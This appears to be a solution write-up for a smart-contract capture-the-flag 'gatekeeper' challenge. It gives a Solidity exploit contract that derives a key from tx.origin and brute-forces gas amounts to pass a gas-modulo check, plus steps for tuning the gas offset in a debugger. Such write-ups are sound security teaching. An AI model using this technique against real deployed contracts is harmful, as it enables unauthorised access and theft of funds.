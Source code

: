Deploy the following contract to the same network
```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity 0.6.4;

contract Exploit {
    function exploit(address _who, uint adjust) public {
        bytes8 key = bytes8(uint64(tx.origin) & 0xFFFFFFFF0000FFFF);

        bool s;
        for (uint i = 0; i < adjust; i++){
          (s,) = _who.call{gas: adjust + (8191 * 3) - i}(abi.encodeWithSignature("enter(bytes8)", key));
          if (s){
            break;
          }
        }
        if (!s){
          revert();
        }
    }
}
```
Call exploit() sending your contract instance, and an adjust value (helpful for change between networks, addresses and solc versions)

To find a good adjust value:
  - deploy this contract and the gatekeeper to a local vm
  - try with adjust = 0
  - debug the transaction and go to the first opcode where remix highlights ```msg.gas % 8191```
  - grab the remaining gas value
  - go back until execution step inside gatekeeper is 0
  - grab the remaining gas value
  - subtract one from the other
  - add an error margin (about 50 gas)
